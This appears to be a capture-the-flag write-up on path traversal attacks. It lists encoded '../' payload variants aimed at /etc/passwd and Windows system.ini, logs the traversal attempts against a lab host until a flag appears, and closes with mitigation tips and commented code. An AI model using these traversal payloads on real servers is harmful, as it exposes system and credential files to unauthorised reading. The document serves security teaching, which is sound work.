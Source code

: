 ### Title: <span style="color:blue">Path traversal - directory traversal - dot dot slash attacks</span>

This type of attack forces access to files, directories, and commands that are located outside the web document root directory.
`web document root`: refers to the root directory of a web server where the web documents (such as HTML, CSS, JavaScript files, and images) are stored.

an attacker can exploit a `URL` in a way that the web site executes or discloses contents of files on the web server. Even though most web sites restrict user access to the web `document root` or `CGI root `directory, an attacker can gain access to these directories by using special character sequences.
The `../` sequence is a common sequence used by an attacker to access files or to execute commands on the `file system`. the following alternate encodings of this sequence that might be used to bypass security filters:

* `Input Validation`: Lack of proper input validation allows attackers to inject "../" or similar sequences into input fields, such as URLs, to navigate to unauthorized directories.
> Vulnerable URL: http://example.com/viewfile?file=../../../../../etc/passwd
> If the application does not properly validate the "file" parameter, an attacker can use "../" sequences to navigate to sensitive system files like /etc/passwd.

* `URL Encoding`: using URL-encoded (%2e%2e%2f) to bypass input validation and navigate up the directory tree.
>Vulnerable URL: https://example.com/viewfile?file=%2e%2e%2f%2e%2e%2fetc/passwd
>Here, the "../" sequence is URL-encoded as "%2e%2e%2f", allowing the attacker to navigate to the /etc/passwd file.


* `Null Byte (%00)`: Some older systems interpret a null byte (%00) as the end of a string. Attackers can use this to truncate the path and access files or directories they shouldn't.
>Vulnerable URL: http://example.com/viewfile?file=../../../../etc/passwd%00


* `Double URL Encoding`: (%252e%252e%252f) to evade detection by security mechanisms that decode URLs.-
>Vulnerable URL: http://example.com/viewfile?file=%252e%252e%252f%252e%252e%252fetc/passwd

* `Encoded Slashes`: encoded versions of slashes (%2f) to traverse directories, especially in cases where the application does not decode URL-encoded characters correctly.
>Vulnerable URL: https://example.com/viewfile?file=%2f%2e%2e%2f%2e%2e%2fetc/passwd


* `Windows Path Traversal`: On Windows systems, backslashes are used instead of slashes (/) to perform a traverse attack to directories and access sensitive files like `system.ini`.
>Vulnerable URL: https://example.com/viewfile?file=..\..\..\..\Windows\system.ini

* `Relative/Absolute Paths`: Understanding whether the application uses relative or absolute paths for file operations.
suppose an application uses relative paths for file operations and expects user input like filename.txt. An attacker can manipulate the input to access a file outside the intended directory, e.g., ../../../../../etc/passwd.

**Location:** `${IP}/?page=`

**Step0**
the url path in the location could be vulnerable to path traversal attacks if not properly sanitized:

we tried : http://10.13.100.74/?page=../../etc/passwd: an alert shows wrong
we tried : http://10.13.100.74/?page==../../../etc/passwd an alert shows nope
we tried : http://10.13.100.74/?page==../../../../../etc/passwd: an alert shows still not
we  keep tring : http://10.13.100.74/?page=../../../../../../../etc/passwd: the alert shows now a diffrent message containig the flag
we  keep tring : http://10.13.100.74/?page=../../../../../../../../../etc/passwd: the alert shows the same message of the previous try

`Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

>NOTE
> /etc/passwd is a common file used to demonstrate directory traversal, as it is often used by crackers to try cracking the passwords.
>more of ".." sequences, meaning it goes up multiple directory levels before reaching "etc/passwd". This could potentially traverse through several parent directories before reaching the "etc/passwd" file. 
>In Unix-like systems, when you traverse up the directory tree using "../", you can't go beyond the root directory. So, adding more "../" sequences beyond reaching the root directory won't change the path.


**To prevent**
To mitigate traversal attacks, it's important to validate and sanitize user input, especially when dealing with file paths or URLs, and to restrict access permissions to sensitive files and directories.
you can take several measures:

* `input validation`: Validate and sanitize all user input, especially file paths and URLs, to ensure they do not contain any malicious characters or sequences.

Javascript example: 
// function sanitizeInput(input) {
//   return input.replace(/[^a-z0-9]/gi, ''); // Remove all non-alphanumeric characters
//}

* `Use Whitelists`: to specify allowed `file paths` or `directories` that users can access. This helps prevent unauthorized access to sensitive files.

php example:
// $allowedDirectories = ['/var/www/html/uploads/', '/var/www/html/images/'];
// $userInput = $_GET['file'];

// if (in_array($userInput, $allowedDirectories)) {
    // Access the file
// } else {
    // Return an error
//}

* Limit File Permissions: Ensure that the web server process has limited permissions and can only access files and directories necessary for its operation. for example in nginx server, the www-data user is created during the its installation and is configured in the Nginx configuration files. By default, the www-data user does not have root privileges and has limited access to the file system.


* `secure framework`: Use a secure development framework, such as Django (Python) or Spring Boot (Java), which includes built-in protections against common attacks like directory traversal.


* `Logging and Monitoring`: Implement logging and monitoring to detect and respond to suspicious activity, such as multiple failed directory traversal attem

**Resources**

What is directory traversal: https://www.youtube.com/watch?v=NQwUDLMOrHo&t=140s
Directory traversal: https://www.invicti.com/learn/directory-traversal-path-traversal/